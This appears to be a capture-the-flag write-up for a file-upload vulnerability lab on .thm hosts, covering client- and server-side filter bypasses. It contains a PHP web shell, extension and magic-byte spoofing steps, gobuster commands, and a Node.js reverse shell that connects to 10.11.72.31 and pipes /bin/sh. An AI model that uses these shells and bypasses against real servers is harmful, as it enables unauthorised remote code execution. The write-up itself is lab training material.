Upload Vulnerabilities
1. Overwriting Existing Files:
When files are uploaded to the server, a range of checks should be carried out to ensure that the file will not overwrite anything which already exists on the server. Common practice is to assign the file with a new name -- often either random, or with the date and time of upload added to the start or end of the original filename. Alternatively, checks may be applied to see if the filename already exists on the server; if a file with the same name already exists then the server will return an error message asking the user to pick a different file name. File permissions also come into play when protecting existing files from being overwritten. Web pages, for example, should not be writeable to the web user, thus preventing them from being overwritten with a malicious version uploaded by an attacker.
2. Remote Code Execution:
Remote Code Execution (as the name suggests) would allow us to execute code arbitrarily on the web server. Whilst this is likely to be as a low-privileged web user account (such as www-data on Linux servers), it's still an extremely serious vulnerability. Remote code execution via an upload vulnerability in a web application tends to be exploited by uploading a program written in the same language as the back-end of the website (or another language which the server understands and will execute). Traditionally this would be PHP, however, in more recent times, other back-end languages have become more common (Python Django and Javascript in the form of Node.js being prime examples). It's worth noting that in a routed application (i.e. an application where the routes are defined programmatically rather than being mapped to the file-system), this method of attack becomes a lot more complicated and a lot less likely to occur. Most modern web frameworks are routed programmatically.
PHP Code (php-simple.php):
<?php
echo system($_GET["cmd"]);
?>
Eg. http://shell.uploadvulns.thm/resources/php-simple.php?cmd=cat%20/var/www/flag.txt
3. Filtering:
Filtering Types (Based on Place of Implementation)####
A) Client Side Filtering
B) Server Side Filtering
Types of Filters (Based on How they work)
I) Extension Validation:
File extensions are used (in theory) to identify the contents of a file. In practice they are very easy to change, so actually don't mean much; however, MS Windows still uses them to identify file types, although Unix based systems tend to rely on other methods, which we'll cover in a bit. Filters that check for extensions work in one of two ways. They either blacklist extensions (i.e. have a list of extensions which are not allowed) or they whitelist extensions (i.e. have a list of extensions which are allowed, and reject everything else).
II) File Type Filtering:
Similar to Extension validation, but more intensive, file type filtering looks, once again, to verify that the contents of a file are acceptable to upload. We'll be looking at two types of file type validation:
▪ MIME validation: MIME (Multipurpose Internet Mail Extension) types are used as an identifier for files -- originally when transfered as attachments over email, but now also when files are being transferred over HTTP(S). The MIME type for a file upload is attached in the header of the request, and looks something like this:

MIME types follow the format <type>/<subtype>. In the request above, you can see that the image "spaniel.jpg" was uploaded to the server. As a legitimate JPEG image, the MIME type for this upload was "image/jpeg". The MIME type for a file can be checked client-side and/or server-side; however, as MIME is based on the extension of the file, this is extremely easy to bypass.
▪ Magic Number validation: Magic numbers are the more accurate way of determining the contents of a file; although, they are by no means impossible to fake. The "magic number" of a file is a string of bytes at the very beginning of the file content which identify the content. For example, a PNG file would have these bytes at the very top of the file: 89 50 4E 47 0D 0A 1A 0A.

Unlike Windows, Unix systems use magic numbers for identifying files; however, when dealing with file uploads, it is possible to check the magic number of the uploaded file to ensure that it is safe to accept. This is by no means a guaranteed solution, but it's more effective than checking the extension of a file.
III) File Length Filtering:
File length filters are used to prevent huge files from being uploaded to the server via an upload form (as this can potentially starve the server of resources). In most cases this will not cause us any issues when we upload shells; however, it's worth bearing in mind that if an upload form only expects a very small file to be uploaded, there may be a length filter in place to ensure that the file length requirement is adhered to. As an example, our fully fledged PHP reverse shell from the previous task is 5.4Kb big -- relatively tiny, but if the form expects a maximum of 2Kb then we would need to find an alternative shell to upload.
IV) File Name Filtering:
As touched upon previously, files uploaded to a server should be unique. Usually this would mean adding a random aspect to the file name, however, an alternative strategy would be to check if a file with the same name already exists on the server, and give the user an error if so. Additionally, file names should be sanitised on upload to ensure that they don't contain any "bad characters", which could potentially cause problems on the file system when uploaded (e.g. null bytes or forward slashes on Linux, as well as control characters such as ; and potentially unicode characters). What this means for us is that, on a well administered system, our uploaded files are unlikely to have the same name we gave them before uploading, so be aware that you may have to go hunting for your shell in the event that you manage to bypass the content filtering.
V) File Content Filtering:
More complicated filtering systems may scan the full contents of an uploaded file to ensure that it's not spoofing its extension, MIME type and Magic Number. This is a significantly more complex process than the majority of basic filtration systems employ, and thus will not be covered in this room.
Note: None of these filters are perfect by themselves -- they will usually be used in conjunction with each other, providing a multi-layered filter, thus increasing the security of the upload significantly. Any of these filters can all be applied client-side, server-side, or both.
Similarly, different frameworks and languages come with their own inherent methods of filtering and validating uploaded files. As a result, it is possible for language specific exploits to appear; for example, until PHP major version five, it was possible to bypass an extension filter by appending a null byte, followed by a valid extension, to the malicious .php file. More recently it was also possible to inject PHP code into the exif data of an otherwise valid image file, then force the server to execute it. These are things that you are welcome to research further, should you be interested.
A) Client Side Filtering Bypass
There are four easy ways to bypass your average client-side file upload filter:
1) Turn off Javascript in your browser -- this will work provided the site doesn't require Javascript in order to provide basic functionality. If turning off Javascript completely will prevent the site from working at all then one of the other methods would be more desirable; otherwise, this can be an effective way of completely bypassing the client-side filter.
2) Intercept and modify the incoming page. Using Burpsuite, we can intercept the incoming web page and strip out the Javascript filter before it has a chance to run. The process for this will be covered below.
3) Intercept and modify the file upload. Where the previous method works before the webpage is loaded, this method allows the web page to load as normal, but intercepts the file upload after it's already passed (and been accepted by the filter). Again, we will cover the process for using this method in the course of the task.
4) Send the file directly to the upload point. Why use the webpage with the filter, when you can send the file directly using a tool like curl? Posting the data directly to the page which contains the code for handling the file upload is another effective method for completely bypassing a client side filter. We will not be covering this method in any real depth in this tutorial, however, the syntax for such a command would look something like this:
curl -X POST -F "submit:<value>" -F "<file-parameter>:@<path-to-file>" <site>
To use this method you would first aim to intercept a successful upload (using Burpsuite or the browser console) to see the parameters being used in the upload, which can then be slotted into the above command.
2) Intercept and modify the incoming page:

The above is the HTML source of the upload webpage. As we can see the javascript in the box is allowing on image/jpeg files.
To remove this, intercept the web page request in Burpsuite.

Next, Right-Click and select Do intercept ---→ Response to this request [It is done to catch the server response]
Then, hit forward and view the code for the page of server's response in Burpsuite as below.

Then delete the highlighted part and click on Forward.
Now, we can upload any type of file.
Note: Here the Javascript was hardcoded in the main page. That is why, we could view it in Server Response.
It's worth noting here that Burpsuite will not, by default, intercept any external Javascript files that the web page is loading. If you need to edit a script which is not inside the main page being loaded, you'll need to go to the "Options" tab at the top of the Burpsuite window, then under the "Intercept Client Requests" section, edit the condition of the first line to remove ^js$|.... as shown below.

Important: Next, we reload the page. (Note: Use Ctrl + F5 to clear cache to prevent skipping of cached js files)
Once Reload, now we will see all the javascript GET requests. The one which we need to edit.
Right Click ---→ Do Intercept -----→ Response to this request
Therefore, when the server send the javascript file, Burpsuite will intercept it before sending to the browser.
3) Intercept and modify the file upload
Note: In this method, unlike above we do not remove the client side js code. We rename our .php file to .jpg & thus it won't show any error during initial javascript check.
However, before sending to the server we need to correct the extensions as follows:
Once again we'll activate our Burpsuite intercept, then click "Upload" and catch the request:

Observe that the MIME type of our PHP shell is currently image/jpeg. We'll change this to text/x-php, and the file extension from .jpg to .php, then forward the request to the server:

B) Server Side Filtering Bypass
1. File Extensions
2. Magic Numbers
1. File Extensions
Client-side filters are easy to bypass -- you can see the code for them, even if it's been obfuscated and needs processed before you can read it; but what happens when you can't see or manipulate the code? Well, that's a server-side filter. In short, we have to perform a lot of testing to build up an idea of what is or is not allowed through the filter, then gradually put together a payload which conforms to the restrictions.
For the first part of this task we'll take a look at a website that's using a blacklist for file extensions as a server side filter. There are a variety of different ways that this could be coded, and the bypass we use is dependent on that. In the real world we wouldn't be able to see the code for this, but for this example, it will be included here:
Example Code:
<?php
//Get the extension
$extension = pathinfo($_FILES["fileToUpload"]["name"])["extension"];
//Check the extension against the blacklist -- .php and .phtml
switch($extension){
case "php":
case "phtml":
case NULL:
$uploadFail = True;
break;
default:
$uploadFail = False;
}
?>
In this instance, the code is looking for the last period (.) in the file name and uses that to confirm the extension, so that is what we'll be trying to bypass here. Other ways the code could be working include: searching for the first period in the file name, or splitting the file name at each period and checking to see if any blacklisted extensions show up. We'll cover this latter case later on, but in the meantime, let's focus on the code we've got here.
We can see that the code is filtering out the .php and .phtml extensions, so if we want to upload a PHP script we're going to have to find another extension. The wikipedia page for PHP gives us a few common extensions that we can try; however, there are actually a variety of other more rarely used extensions available that webservers may nonetheless still recognise. These include: .php3, .php4, .php5, .php7, .phps, .php-s, .pht and .phar. Many of these bypass the filter (which only blocks .php and .phtml), but it appears that the server is configured not to recognise them as PHP files, as in the below example:

This is actually the default for Apache2 servers, at the time of writing; however, the sysadmin may have changed the default configuration (or the server may be out of date), so it's well worth trying.
Eventually we find that the .phar extension bypasses the filter -- and works -- thus giving us our shell:

Solution To Task: rshell.jpg.php5
2. Magic Numbers
We've already had a look at server-side extension filtering, but let's also take the opportunity to see how magic number checking could be implemented as a server-side filter.
As mentioned previously, magic numbers are used as a more accurate identifier of files. The magic number of a file is a string of hex digits, and is always the very first thing in a file. Knowing this, it's possible to use magic numbers to validate file uploads, simply by reading those first few bytes and comparing them against either a whitelist or a blacklist. Bear in mind that this technique can be very effective against a PHP based webserver; however, it can sometimes fail against other types of webserver (hint hint).
As expected, if we upload our standard shell.php file, we get an error; however, if we upload a JPEG, the website is fine with it. All running as per expected so far.
From the previous attempt at an upload, we know that JPEG files are accepted, so let's try adding the JPEG magic number to the top of our shell.php file. A quick look at the list of file signatures on Wikipedia shows us that there are several possible magic numbers of JPEG files. It shouldn't matter which we use here, so let's just pick one (FF D8 FF DB). We could add the ASCII representation of these digits (ÿØÿÛ) directly to the top of the file but it's often easier to work directly with the hexadecimal representation, so let's cover that method.
Before we get started, let's use the Linux file command to check the file type of our shell:

As expected, the command tells us that the filetype is PHP. Keep this in mind as we proceed with the explanation.
We can see that the magic number we've chosen is four bytes long, so let's open up the reverse shell script and add four random characters on the first line. These characters do not matter, so for this example we'll just use four "A"s:

Save the file and exit. Next we're going to reopen the file in hexeditor (which comes by default on Kali), or any other tool which allows you to see and edit the shell as hex. In hexeditor the file looks like this:

Note the four bytes in the red box: they are all 41, which is the hex code for a capital "A" -- exactly what we added at the top of the file previously.
Change this to the magic number we found earlier for JPEG files: FF D8 FF DB

Now if we save and exit the file (Ctrl + x), we can use file once again, and see that we have successfully spoofed the filetype of our shell:

Perfect. Now let's try uploading the modified shell and see if it bypasses the filter!
And We were able to successfully upload it and get reverse shell.
Solution To Task: Add GIF89a213213123 to the begining of php reverse shell file.
We can check by using file command. (it will show that the file is a gif)
Next, we upload it & get the shell.
Example Methology (Black Box)
We've seen various different types of filter now -- both client side and server side -- as well as the general methodology for file upload attacks. In the next task you're going to be given a black-box file upload challenge to complete, so let's take the opportunity to discuss an example methodology for approaching this kind of challenge in a little more depth. You may develop your own alternative to this method, however, if you're new to this kind of attack, you may find the following information useful.
We'll look at this as a step-by-step process. Let's say that we've been given a website to perform a security audit on.
1. The first thing we would do is take a look at the website as a whole. Using browser extensions such as the aforementioned Wappalyzer (or by hand) we would look for indicators of what languages and frameworks the web application might have been built with. Be aware that Wappalyzer is not always 100% accurate. A good start to enumerating this manually would be by making a request to the website and intercepting the response with Burpsuite. Headers such as server or x-powered-by can be used to gain information about the server. We would also be looking for vectors of attack, like, for example, an upload page.
2. Having found an upload page, we would then aim to inspect it further. Looking at the source code for client-side scripts to determine if there are any client-side filters to bypass would be a good thing to start with, as this is completely in our control.
3. We would then attempt a completely innocent file upload. From here we would look to see how our file is accessed. In other words, can we access it directly in an uploads folder? Is it embedded in a page somewhere? What's the naming scheme of the website? This is where tools such as Gobuster might come in if the location is not immediately obvious. This step is extremely important as it not only improves our knowledge of the virtual landscape we're attacking, it also gives us a baseline "accepted" file which we can base further testing on.
▸ An important Gobuster switch here is the -x switch, which can be used to look for files with specific extensions. For example, if you added -x php,txt,html to your Gobuster command, the tool would append .php, .txt, and .html to each word in the selected wordlist, one at a time. This can be very useful if you've managed to upload a payload and the server is changing the name of uploaded files.
4. Having ascertained how and where our uploaded files can be accessed, we would then attempt a malicious file upload, bypassing any client-side filters we found in step two. We would expect our upload to be stopped by a server side filter, but the error message that it gives us can be extremely useful in determining our next steps.
Assuming that our malicious file upload has been stopped by the server, here are some ways to ascertain what kind of server-side filter may be in place:
▪ If you can successfully upload a file with a totally invalid file extension (e.g. testingimage.invalidfileextension) then the chances are that the server is using an extension blacklist to filter out executable files. If this upload fails then any extension filter will be operating on a whitelist.
▪ Try re-uploading your originally accepted innocent file, but this time change the magic number of the file to be something that you would expect to be filtered. If the upload fails then you know that the server is using a magic number based filter.
▪ As with the previous point, try to upload your innocent file, but intercept the request with Burpsuite and change the MIME type of the upload to something that you would expect to be filtered. If the upload fails then you know that the server is filtering based on MIME types.
▪ Enumerating file length filters is a case of uploading a small file, then uploading progressively bigger files until you hit the filter. At that point you'll know what the acceptable limit is. If you're very lucky then the error message of original upload may outright tell you what the size limit is. Be aware that a small file length limit may prevent you from uploading the reverse shell we've been using so far.
Challenge Task
Using Wappalyzer we found Node.js being used in the Express Framework. (PHP shell won't work)
We need Node.js reverse shell.
(function(){
var net = require("net"),
cp = require("child_process"),
sh = cp.spawn("/bin/sh", []);
var client = new net.Socket();
client.connect(443, "10.11.72.31", function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
});
return /a/; // Prevents the Node.js application from crashing
})();
We place it in a file named shell.js
The website client side filter in upload.js
Intercept the GET request for this file & then intercept the server response for this file using the following.
Right Click ---→ Do Intercept -----→ Response to this request
Then remove the client filters from the javascript file and forward it to the browser.
Now, we have stripped the Client Side Filters.
However, Server Side Filter exists for Extension. We need to rename our nodejs shell from .js to .jpg
Now, to find where the files are uploaded we need to look in /content directory, But it is not browsable.
Thus, we will use Gobuster with the provided wordlist as follows.
gobuster dir -u http://jewel.uploadvulns.thm/content -x jpg -t 250 -w UploadVulnsWordlist.txt

We will use the same gobuster code again after sucessful upload to know the name of our upload file.

We now know the name of our uploaded file is SWF.jpg
If we try to open it in URL http://jewel.uploadvulns.thm/content/SWF.jpg we will get an error as SHELL code in Node JS doesn't execute directly.
Upon initial Dirsearch We had found the directories admin, modules, content
Lets go to Admin
